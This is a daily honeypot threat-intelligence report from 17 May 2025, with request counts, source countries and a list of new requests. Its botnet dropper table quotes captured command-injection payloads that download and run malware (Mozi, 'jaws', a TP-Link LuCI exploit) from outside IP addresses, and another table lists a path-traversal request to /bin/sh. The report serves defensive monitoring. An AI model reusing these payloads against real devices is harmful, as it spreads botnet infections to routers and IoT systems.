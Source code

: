 ```yaml
---
title: "Report: 2025-05-17 "
date: 2025-05-17
desciption: "Report: 2025-05-17" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-17 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 7 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 889 requests were recorded during the day, originating from 4 different countries, with a peak of 206 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SG               | Germany            |
| US               | Germany            |
| KR               | Germany            |
| US               | Dubai              |
| FR               | Israel             |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                             |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 120.138.12.245 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                               |
| 201.110.226.12 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.135.194.174/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                         |
| 27.215.87.190  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                               |
| 141.98.11.137  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+r%3B+wget+http%3A%2F%2F212.81.47.226%2Fr%3B+chmod+777+r%3B+.%2Fr+tplink%3B+rm+-rf+r%60) HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                              |
|----:|----------------------:|:-------------------------------------------------------------------------------------------------------------------------------------|
|  74 |                     2 | POST /cgi-bin/.%%%%32%%65/.%%%%32%%65/.%%%%32%%65/.%%%%32%%65/.%%%%32%%65/bin/sh HTTP/1.1                                            |
| 205 |                     1 | \x00\x11Clickhouse client\x18\x0C\xCA\xA9\x03\x00\x07default\x00                                                                     |
| 228 |                     1 | \x00\x00\x00T\x00\x03\x00\x00user\x00postgres\x00database\x00postgres\x00application_name\x00psql\x00client_encoding\x00UTF8\x00\x00 |
| 268 |                     1 | GET /socket.io/1/?t=1747451036116 HTTP/1.1                                                                                           |
| 345 |                     1 | GET /Odin/http/call1747468019 HTTP/1.1                                                                                               |
| 346 |                     1 | GET /OdinHttpCall1747468019 HTTP/1.1                                                                                                 |
| 348 |                     1 | GET /odinhttpcall1747468019 HTTP/1.1                                                                                                 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   206 | US                 |
|  1 |                    78 | NL                 |
|  2 |                    74 | CN                 |
|  3 |                    70 | PL                 |
|  4 |                    66 | CH                 |
|  5 |                    58 | DE                 |
|  6 |                    45 | BG                 |
|  7 |                    40 | FR                 |
|  8 |                    34 | GB                 |
|  9 |                    33 | JP                 |
| 10 |                    28 | UA                 |
| 11 |                    28 | IN                 |
| 12 |                    26 | SC                 |
| 13 |                    13 | SG                 |
| 14 |                    13 | IL                 |
| 15 |                    13 | LT                 |
| 16 |                    11 | AZ                 |
| 17 |                     9 | CA                 |
| 18 |                     7 | KR                 |
| 19 |                     7 | RO                 |
| 20 |                     6 | GH                 |
| 21 |                     4 | BE                 |
| 22 |                     3 | AO                 |
| 23 |                     3 | MC                 |
| 24 |                     3 | IR                 |
| 25 |                     3 | HK                 |
| 26 |                     1 | MX                 |
| 27 |                     1 | IT                 |
| 28 |                     1 | BR                 |
| 29 |                     1 | ZA                 |
| 30 |                     1 | ES                 |
| 31 |                     1 | PT                 |
| 32 |                     1 | PH                 |
| 33 |                     1 | TR                 |
